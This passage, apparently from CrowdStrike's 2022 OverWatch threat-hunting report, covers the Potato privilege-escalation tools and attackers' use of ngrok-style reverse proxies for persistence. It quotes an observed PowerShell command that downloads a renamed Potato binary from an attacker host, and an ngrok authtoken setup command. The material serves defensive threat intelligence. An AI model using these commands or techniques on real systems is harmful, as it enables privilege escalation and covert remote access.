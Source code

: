 fundamental concept is to force a system to authenticate and capture the security token. Over time, variations of this technique 
were created with similar names — such as “Juicy Potato,” “Lonely Potato” and “Rogue Potato” — but relied on the same underlying 
method of capturing credentials in transit. More recently in 2020, a script called “Sweet Potato” was written to bundle multiple 
Potato exploits, which can be run standalone or through attack frameworks such as PowerShell Empire and Cobalt Strike.
Overview of method:
1\. 
Forces NT AUTHORITY/SYSTEM to authenticate via NTLM 
2\. 
Captures authentication attempt to acquire security token 
3\. 
Impersonates if the account will allow it (the account must have SeImpersonatePrivilege rights)
In the Wild
Despite variations of this tool dating back to 2016, it continues to find a place in adversary toolkits due to consistent innovation and 
ease of use. As with so many other exploitation tools, a push to “one\-click” solutions lowers the barrier to entry for adversaries and 
can make it easier for adversary groups to standardize procedures. 
OverWatch Observations
Sweet Potato is a collection of scripts that can be staged and downloaded from any adversary\-controlled domain or IP. OverWatch 
often sees the binary renamed as it’s downloaded to the victim host, and as a result, hash identification is useful for locating Potato 
binaries. 
Example of a renamed Potato binary:
powershell Invoke\-WebRequest \-Uri
"http:/
/\[REDACTED]/kumpir
.exe" \-OutFile
"c:
\\users\\public\\kumpir
.exe"
Trending Tools
In many cases, it takes time for adversaries to adopt new techniques 
and tools into their operations. The OverWatch team is interested 
when tools have been around for years but appear to be increasing in 
popularity. This gives hunters an idea of where things are trending and 
what adversaries are finding most effective. 
Nowhere to Hide: 2022 Falcon OverWatch Threat Hunting Report
CrowdStrike
33
ngrok, fatedier
and Other Reverse Proxy Tooling
Command and Control and Exfiltration
Reverse proxy tools like ngrok, fatedier and others are used to make internal hosts accessible from the public internet. Typically 
we think about exposing web servers to the public internet, but these tools can be applied to any port. When they are used by the 
wrong actors, you can find services and hosts open to external connections when they should not be. 
In the Wild
Adversaries have been leveraging these tools to make other services like RDP or SSH available through the open web as a form of 
persistence. They create scheduled tasks or services to run tools like ngrok periodically to ensure they can still access the host if 
the initial access vector is cut off. 
OverWatch Observations
ngrok specifically is a service that requires configuration before using the tool. To set up this tool to make a host available at a 
specific ngrok domain, an authentication token must be either added to the configuration using command such as the following:
ngrok.exe config add\-authtoken \[AUTH TOKEN REACTED]